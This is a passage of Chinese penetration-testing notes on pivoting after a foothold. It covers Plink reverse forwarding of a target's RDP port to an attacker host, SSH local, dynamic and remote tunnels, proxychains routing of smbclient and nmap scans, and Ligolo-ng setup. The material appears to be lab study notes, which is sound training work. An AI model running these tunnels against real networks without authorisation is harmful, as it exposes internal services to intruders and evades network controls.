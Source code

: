 链接有问题可以尝试在 proxychains 前面加上 sudo 即可


##### 端口转发 - Plink
适合 web shell 拿到 shell 后通过转发把端口转发出去，再访问
```bash
C:\programdata\plink.exe -ssh -l cjk -pw 123456 -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.170
```


##### SSH 隧道
- **SSH 本地端口转发**
本地无法访问目标，但是中间有一个系统我们可以访问，并且那个系统可以访问到目标。
```bash
ssh -L [<本地ip>:]<本地port>:<目标ip>:<目标port> User@<系统ip>
```

- **SSH 动态端口转发**
数据包可以转发到 SSH 服务器主机有权访问的任何套接字
```bash
ssh -D 0.0.0.0:9999 database_admin@10.4.224.215
```
配置 proxychains4.conf ： ` sudo vim /etc/proxychains4.conf `
添加一行 ` socks5 本地IP 转发端口 `  （socks5 192.168.55.3  9999）  (注意要排在第一个)
使用命令： 
`proxychains smbclient -L //IP -U User --password=passwd` 
`proxychains nmap -vvv -sT --top-ports 20 IP` （不能能加 sudo）

- **SSH 远程端口转发**
远程 shell 把内网主机开放的端口转发到127.0.0.1 ，并且连接攻击机 (出站流量不限制)
```bash
setting PasswordAuthentication to yes in /etc/ssh/sshd_config.
sudo systemctl start ssh
sudo ss -ntplu  检查22端口
ssh -R 127.0.0.1:8000:0.0.0.0:8000 cjk@192.168.45.225
ss -ntplu
```

端口 kali 不能访问，转发到 kali 本地访问127.0.0.1
```bash
ssh -R *:8000:127.0.0.1:8000 cjk@192.168.45.199
```

- **SSH 远程动态端口转发**
```bash
sudo systemctl start ssh
ssh -N -R 9998 cjk@192.168.118.4
sudo ss -ntplu
tail /etc/proxychains4.conf
```

##### Ligolo-NG
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.5.2
**Setup**
```bash
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
```
